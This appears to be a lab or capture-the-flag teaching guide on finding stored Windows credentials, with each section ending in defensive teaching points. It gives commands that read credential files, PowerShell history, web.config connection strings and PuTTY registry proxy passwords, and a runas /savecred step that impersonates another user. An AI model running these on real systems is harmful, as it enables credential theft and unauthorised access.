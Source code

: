 # Windows Credential Retrieval
## 1. Unattended Windows Installations
Context:  
Administrators may use unattended installations to deploy Windows automatically.  
During setup, credentials like Administrator can get stored in files such as:
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

Sometimes passwords are stored in cleartext under <Credentials> tags.
Walkthrough Explanation:  
1. Open the file with notepad or type command:  
```
type C:\Windows\Panther\Unattend\Unattend.xml
```
Search for <Credentials> or <Password> tags.  
Extract the username and password.  

Teaching Point:  
Highlight why storing passwords in plain text here is risky.  
Show that attackers or automated scripts can scan these default locations for credentials.

---

## 2. PowerShell History
Context:  
PowerShell logs commands by default in:
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Any commands with passwords typed directly are stored here.  

Walkthrough Explanation:  
From cmd.exe:
```

type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
From PowerShell:
```

type \$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
Look for julia.jones or any suspicious command containing a password.  

Teaching Point:  
Emphasize never typing passwords in cleartext in CLI commands.  
Explain why secure vaults or Get-Credential in PowerShell are safer.  

---

## 3. Saved Windows Credentials
Context:  
Windows can store credentials for easier logins.  
Commands to inspect them:  
```

cmdkey /list

```
To use a saved credential to run a program:
```

runas /savecred /user:USERNAME cmd.exe

```

Walkthrough Explanation:  
List saved credentials:
```

cmdkey /list

```
Identify mike.katz or another user you want to impersonate.  
Spawn a shell as that user:
```

runas /savecred /user:mike.katz cmd.exe

```
Navigate to their desktop to find the flag:
```

cd C:\Users\mike.katz\Desktop
type flag.txt

```

Teaching Point:  
Highlight impersonation risk if credentials are saved carelessly.  
Show practical use of /savecred in penetration testing.

---

## 4. IIS Configuration
Context:  
IIS web server stores configuration in web.config files.  
Connection strings may contain database passwords.  

Locations to check:
```

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```

Walkthrough Explanation:  
Use findstr to search for connection strings:  
```

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

```
Look for `<add name="db_admin"` or similar tags containing `password=`.  
Extract the password from the string.  

Teaching Point:  
Cleartext passwords in configuration files are common and dangerous.  
Good opportunity to discuss web application security.

---

## 5. Retrieving PuTTY Stored Credentials
Context:  
PuTTY stores session configs in the Windows registry.  
Proxy passwords and usernames may be saved in cleartext.  

Registry key location:
```

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\

```

Walkthrough Explanation:  
Query the registry for stored sessions:  
```

reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

```
Look for `ProxyPassword` and associated usernames.  

Teaching Point:  
Show how local applications can accidentally store passwords.  
Emphasize the importance of using key-based authentication for SSH.

---

## Summary of Your Approach for the Exercise

| Source                | Steps to Find Passwords                          | Key Notes                                           |
|------------------------|--------------------------------------------------|-----------------------------------------------------|
| PowerShell History     | `type ConsoleHost_history.txt`                   | Look for cleartext passwords typed in commands      |
| IIS web.config         | `type web.config` → `findstr connectionString`   | Database credentials often in cleartext             |
| Windows Saved Creds    | `cmdkey /list` → `runas /savecred`               | Spawn shell as saved user, retrieve flag            |
| PuTTY                  | `reg query ... /f "Proxy"`                       | Proxy username/password stored in registry          |
```
